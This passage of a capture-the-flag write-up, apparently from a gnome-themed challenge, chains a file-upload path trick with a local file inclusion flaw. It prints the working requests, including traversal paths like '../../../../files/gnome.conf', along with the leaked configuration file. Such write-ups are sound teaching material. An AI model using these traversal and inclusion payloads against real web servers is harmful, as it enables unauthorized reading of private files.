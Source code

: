 
Uploading a file has the following POST and message 

{% highlight bash %}
POST /settings HTTP/1.1

[SNIP]

filen=win.png//&file=l
{% endhighlight %}

{% highlight bash %}
Dir /gnome/www/public/upload/rmgMLPCg/win.png// created successfully!
{% endhighlight %}

[http://52.34.3.80/cam?camera=../upload/rmgMLPCg/win.png](http://52.34.3.80/cam?camera=../upload/rmgMLPCg/win.png) brings us to a valid page now but nothing is there and we still can not directory traverse to 'gnomes.conf'. At least we now have the ability to upload and create a directory of our choice! 

Leveraging these two exploits we can perform the tasks we need. 

First we will upload a file using directory traversal to put it in the /upload directory with the '.png' extension to bypass the extension check. We will then use the LFI vulnerability in the camera downloader to browse to gnome.conf.

First upload a file to create a directory

{% highlight bash %}
filen=1337/exploit.png/file=lol.png

Dir /gnome/www/public/upload/XoWsWzBB/1337/exploit.png/ created successfully!
{% endhighlight %}

Secondly, LFI, LFI for glory!

{% highlight bash %}
GET /cam?camera=../upload/XoWsWzBB/../1337/exploit.png/../../../../files/gnome.conf HTTP/1.1

Host: 52.34.3.80
{% endhighlight %}

SUCCESS! 

{% highlight bash %}
Gnome Serial Number: XKCD988
Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
Allow new subordinates?: YES
Camera monitoring?: YES
Audio monitoring?: YES
Camera update rate: 60min
Gnome mode: SuperGnome
Gnome name: SG-02
Allow file uploads?: YES
Allowed file formats: .png
Allowed file size: 512kb
Files directory: /gnome/www/files/
{% endhighlight %}
